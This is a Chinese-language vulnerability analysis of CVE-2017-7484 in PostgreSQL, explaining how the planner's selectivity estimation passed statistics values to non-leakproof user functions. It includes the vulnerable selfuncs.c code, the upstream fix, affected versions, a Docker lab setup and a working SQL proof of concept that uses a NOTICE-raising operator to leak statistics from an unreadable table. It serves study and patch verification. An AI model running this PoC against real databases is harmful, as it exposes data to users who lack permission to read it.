


# CVE-2017-7484 CWE-200&285 PostgreSQL 信息泄露

## 漏洞背景

- **PostgreSQL**：PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **选择性估计（selfuncs）：** PostgreSQL 查询优化器中的一类函数，用来估算某个谓词条件（如 `a = 10`、`a < b`）能够筛选出多少比例的行。它们会基于 `pg_statistic` 中的统计信息（MCV 列表、直方图、空值比例等），结合谓词的比较运算符来计算选择率，从而帮助优化器判断过滤条件的“约束力”，并在多个可能的执行计划中选择代价最低的方案。
- **pg_statistic：** PostgreSQL 的系统表，用于存储表列的统计信息（如最常见值 MCV、直方图、空值比例、平均宽度等），这些数据由 `ANALYZE` 命令采集并更新，主要供查询优化器在生成执行计划时估算谓词选择率和数据分布，以便选择更优的索引或连接策略。它本身并不直接对外可见，用户通常通过 `pg_stats` 视图来查看其中的数据。
- **MCV（Most Common Values，最常见值）列表:**  PostgreSQL 在执行 `ANALYZE` 时采集的一类列统计信息，用于记录某一列中出现频率最高的若干个取值及其相应的出现比例。优化器在生成执行计划时，会利用 MCV 列表来估算谓词选择率，尤其在数据分布不均匀时能显著提升估算精度。MCV 列表反映了“某列中最常见的值及其频率”，帮助优化器更准确地判断过滤条件能筛掉多少行。
- **leak-proof：**PostgreSQL 的函数属性，表示该函数不会通过返回值以外的方式泄露任何输入信息（例如不会因参数不同而产生可观察的错误信息、NOTICE、日志、时间差、外部副作用等侧信道）。只有超级用户才能把函数标记为 `LEAKPROOF`，因此它常用于内置比较/谓词函数。被标记为 `LEAKPROOF` 的函数在安全上下文中可以更早执行或与统计信息一起使用（如安全屏障视图、选择性估计等），因为优化器可以信任它不会在规划或执行阶段暴露敏感数据。

## 漏洞原理

优化器的选择性估计（selfuncs）在使用 `pg_statistic`（MCV/直方图等）时，没有检查调用者权限，也不要求被调用的比较/运算符函数是 `LEAKPROOF`，从而把统计里的“探针值”在规划阶段喂给了用户自定义函数。

## 漏洞定位

分析 PostgreSQL 9.4.0 源码：

在 `src/backend/utils/adt/selfuncs.c` 文件中，第 **4472** 行`examine_simple_variable` 函数负责为查询中的变量（即表的列）加载统计信息。

在第 **4486** 行，只判断统计元组是否存在，之后在第 **4496** 行直接开始使用统计数据，会去 `pg_statistic` 中查找并加载统计数据，但它**完全不关心**当前执行操作的用户是谁，以及这个用户是否有权限读取这张表。它只是简单地把统计元组（statsTuple）加载到 `VariableStatData` 结构体中。同时`selfuncs.c`文件中大量的估算函数（如 `var_eq_const`, `mcv_selectivity`）都存在同样的问题。

```cpp
static void
examine_simple_variable(PlannerInfo *root, Var *var,
						VariableStatData *vardata)
{
	RangeTblEntry *rte = root->simple_rte_array[var->varno];

	Assert(IsA(rte, RangeTblEntry));

    // 检查是否存在扩展插件的统计钩子函数
	if (get_relation_stats_hook &&
		(*get_relation_stats_hook) (root, rte, var->varattno, vardata))
	{	
// ***** 4486 行 ********* 判断统计元组是否存在 
		if (HeapTupleIsValid(vardata->statsTuple) &&
			!vardata->freefunc)
			elog(ERROR, "no function provided to release variable stats with");
	}
    // 变量来源于一个普通的物理表
	else if (rte->rtekind == RTE_RELATION)
	{
// ***** 4496 行 ********** 直接获取统计信息 ***** 漏洞点 *****
		vardata->statsTuple = SearchSysCache3(STATRELATTINH,
											  ObjectIdGetDatum(rte->relid),
											  Int16GetDatum(var->varattno),
											  BoolGetDatum(rte->inh));
		vardata->freefunc = ReleaseSysCache;
	}
    // 变量来源于一个子查询
	else if (rte->rtekind == RTE_SUBQUERY && !rte->inh)
	{
		// ...
	}
}
```

## 漏洞修复


升级到 PostgreSQL 9.6.3、9.5.7、9.4.12、9.3.17、9.2.21，或相应分支中的更高版本。
在sc/backend/utils/adt/selfuncs.c文件中,统一的安全检查功能 `statistic_proc_security_check` 介绍。 如果当前用户在目标表格/栏上拥有 SELECT 权限(见节) `acl_ok` (见下文)或 `func_oid` 与**防漏**的函数相对应,允许使用统计资料； 否则， 返回假和日志 `DEBUG2`。

```cpp
bool
statistic_proc_security_check(VariableStatData *vardata, Oid func_oid)
{
	if (vardata->acl_ok)
		return true;

	if (!OidIsValid(func_oid))
		return false;

	if (get_func_leakproof(func_oid))
		return true;

	ereport(DEBUG2,
			(errmsg_internal("not using statistics because function \"%s\" is not leak-proof",
							 get_func_name(func_oid))));
	return false;
}
```

## 影响范围


** 受影响的版本:** PostgreSQL：

-  9.3.0 改为 9.3.16
-  9.4.0 改为 9.4.11
-  9.5.0 改为 9.5.6
-  9.6.0 改为 9.6.2

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 9.4.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST:NVD   Base Score:8.1 HIGH   CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:9.4:*:*:*:*:*:*:*
```



## 漏洞复现

使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 并运行 PoC 文件

```bash
docker exec -it postgres-9.4.0 psql -U postgres -d test -f CVE-2017-7484-PoC.sql
```

在 Step 5 的 `EXPLAIN ... WHERE a >>> 0` 处，先连续看到了多条的 NOTICE，这表示无表权限时，规划器仍把统计值交给非 leak‑proof 函数使用，导致可观察的副作用输出（NOTICE）。



## PoC分析

```sql
-- 创建两个用户：表拥有者和攻击者
CREATE USER regress_user1;
CREATE USER regress_user2;

-- 切换到拥有者，创建测试表并收集统计信息
SET SESSION AUTHORIZATION regress_user1;
RESET search_path; SET search_path = public;

CREATE TABLE atest12 AS
  SELECT x AS a, 10001 - x AS b
  FROM generate_series(1,10000) AS x;

ANALYZE atest12;

-- 切换到攻击者，创建带副作用的函数与运算符
RESET SESSION AUTHORIZATION;
SET SESSION AUTHORIZATION regress_user2;
RESET search_path; SET search_path = public;

CREATE OR REPLACE FUNCTION leak2(integer, integer)
RETURNS boolean
LANGUAGE plpgsql
IMMUTABLE
AS $$
BEGIN
  RAISE NOTICE 'leak % %', $1, $2;
  RETURN $1 > $2;
END
$$;

CREATE OPERATOR >>> (
  PROCEDURE = leak2,
  LEFTARG   = integer,
  RIGHTARG  = integer,
  RESTRICT  = scalargtsel
);

-- 攻击者执行 EXPLAIN（无表权限，但能触发统计使用）
EXPLAIN (COSTS OFF)
SELECT * FROM atest12 WHERE a >>> 0;
```

规划阶段（EXPLAIN 时）优化器为估算选择性，读取了 `pg_statistic` 的直方图区间/MCV，并把一串“探针值”（5000→2500→1200→…→1）传入自定义的、非 leak‑proof 的函数 `leak2()`。

`leak2()` 内的 `RAISE NOTICE` 把这些被“喂进去”的参数打印出来，于是在没有底表权限的情况下看到了统计驱动的内部值——这就是该漏洞的信息泄露。

之后进入权限检查阶段，才以 permission denied 终止；也就是说，泄露发生在报错之前。这代表无表权限时，规划器仍把统计值交给非 leak‑proof 函数使用，导致可观察的副作用输出（NOTICE）。

## 参考链接


[NVD - CVE-2017-7484](https://nvd.nist.gov/vuln/detail/CVE-2017-7484)

[Add security checks to selectivity estimation functions · postgres/postgres@e2d4ef8](https://github.com/postgres/postgres/commit/e2d4ef8de869c57e3bf270a30c12d48c2ce4e00c#diff-60407b5c46aaf9ea36ed1002b1bfaf5e818298c30d3d680c4e9c91f814befd46)
